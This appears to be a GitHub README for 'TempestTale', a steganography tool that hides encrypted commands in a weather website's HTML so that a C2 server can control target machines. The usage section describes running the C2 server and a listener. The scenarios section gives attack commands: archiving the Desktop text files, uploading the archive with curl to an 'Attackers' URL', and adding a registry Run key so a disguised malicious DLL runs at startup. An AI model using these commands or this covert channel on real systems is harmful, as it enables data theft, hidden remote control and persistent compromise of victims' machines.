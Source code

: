 # TempestTale
Tempest refers to a violent storm, hinting at messages being hidden within storm data.

## Description
TempestTale is a Steganography tool that hides encrypted messages within the HTML of a [weather forecast website](https://www.tiempo3.com/). The capacity is very limited, so its main use is sending commands to a target machine.

## Requirements
To install all necessary dependencies, run the following command:
```bash
$ pip install -r requirements.txt
```

## Usage
1. Run the C2 Server:
```bash
$ python3 webserver.py
```
2. Create the message
```bash
$ python3 messageManager.py

1. Select the city where the message will be hidden
2. Enter the message
3.1. Select if you want to encrypt the message using a random key or a custom
3.2. In case you selected the manual key, enter it
4. Select if you want to send the key as a hidden cookie 
```
3. Receive the message
```bash
$ python3 listener.py

1. Select the city where the message is hidden (same city as before)
2. Enter the encryption key to decrypt the hidden message
```


## Scenarios
1. Test - Obtaining all .txt files from the Desktop
```bash
powershell -c "Compress-Archive C:\\Users\\%USERNAME%\\Desktop\\*.txt C:\\Temp\\data.zip
```

2. Test - Uploading those .txt files to an Attackers' URL
```bash
curl -F 'file=@C:\\Temp\\data.zip' http://m.com/upload"
```

3. Test - Creating Persistence by Adding a Malicious DLL Disguised as Legitimate to the Windows Registry Key to Execute at System Startup
```bash
powershell -c "reg add HKCU\\Run /v a /t REG_SZ /d 'rundll32 c:\\mscoree.dll,a' /f"
```
4. Test - Random String that Could be Information to Update the Malware or a New Plugin
```
e3fbc1a0d292e4a93b1f4c7d2c60f90b3a7d925c312e8b4e8abf2d0f61778
```